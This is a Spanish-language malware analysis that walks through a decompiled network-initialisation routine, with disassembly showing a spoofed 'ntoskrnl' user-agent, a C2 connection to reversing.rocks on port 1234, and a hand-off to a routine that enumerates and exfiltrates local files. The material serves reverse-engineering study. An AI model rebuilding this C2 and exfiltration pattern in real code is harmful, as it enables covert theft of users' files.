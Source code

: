 La función FUN_00401130 implementa el inicializador de red del malware, estableciendo una conexión HTTP al servidor de comando y control (C2) y llamando luego a FUN_00401000 —función que ya analizamos, encargada de recorrer archivos locales y exfiltrarlos.

### 🧠 RESUMEN DEL COMPORTAMIENTO

| Acción	| Descripción|
| -- | -- |
| InternetOpenA	| Inicializa WinINet para conexiones HTTP. |
| InternetConnectA	| Se conecta al servidor reversing.rocks en el puerto 1234 (0x4D2). |
| FUN_00401000	| Se ejecuta tras la conexión: recorre archivos locales y los envía por red. |
| InternetCloseHandle	| Cierra conexiones abiertas. |
| exit(1)	| Termina el proceso si falla alguna de las fases. |


## 🔍 ANÁLISIS DETALLADO PASO A PASO
### 1. Inicializa WinINet
```
0040113a PUSH s_ntoskrnl_0040211c  ; "ntoskrnl" como User-Agent
0040113f CALL [InternetOpenA]
```
- Utiliza "ntoskrnl" como user-agent spoofing, simulando una cadena del kernel de Windows.
- Resultado en EDI.

### 2. Comprobación de éxito
```
00401147 TEST EDI, EDI
00401149 JNZ  -> continua si éxito
0040114b PUSH 1
0040114d CALL exit
```
- Si InternetOpenA falla, termina.


### 3. Establece conexión HTTP con C2
```
0040115d PUSH 0x4d2                ; puerto 1234
00401162 PUSH s_reversing.rocks   ; host remoto
00401168 CALL [InternetConnectA]
```
- Se conecta al servidor remoto reversing.rocks, puerto 1234 (puerto no estándar → comportamiento sospechoso).

### 4. Valida conexión
```
00401170 TEST ESI, ESI
00401172 JNZ -> continúa si éxito
00401174 ... exit(1)
```
- Si falla, cierra conexión inicial y termina.

### 5. Llama a la función principal (FUN_00401000)
```
00401185 CALL FUN_00401000
```
- En este punto se lanza la lógica principal: escaneo de archivos + envío de datos.

### 6. Limpieza final
```
00401191 CALL [InternetCloseHandle] ; Cierra handle ESI (conexión al host)
00401194 CALL [InternetCloseHandle] ; Cierra handle EDI (InternetOpenA)
```

### 7. Retorno
```
00401197 XOR EAX,EAX
00401199 POP ESI
0040119a RET
```
- Devuelve 0 (success).

## ☠️ INDICIOS MALICIOSOS  
| Evidencia técnica	| Comportamiento |
| -- | -- |
| InternetOpenA, InternetConnectA	| Se conecta a un servidor externo. |
| "ntoskrnl" como user-agent	| Intenta parecer un componente del sistema. |
| Conexión a reversing.rocks:1234	| C2 probablemente malicioso. |
| Llama a función que escanea archivos y los envía	| Exfiltración de datos. |


## 🔄 FLUJO GENERAL
```
[InternetOpenA ("ntoskrnl")] → [InternetConnectA ("reversing.rocks", 1234)] 
  └─> Si éxito → [FUN_00401000: Enumeración + exfiltración]
        └─> [FindFirstFileA → HttpOpenRequestA → InternetWriteFile ...]
  └─> Luego cierra todo y retorna 0
```

## ✅ Conclusión

Esta función sirve como fase de inicialización de red del malware, y es claramente parte de una infraestructura de C2 (comando y control):
- El binario establece una conexión a internet y sube archivos locales a un dominio externo.
- Emplea API legítimas de Windows para ello, lo que lo hace más evasivo frente a antivirus.
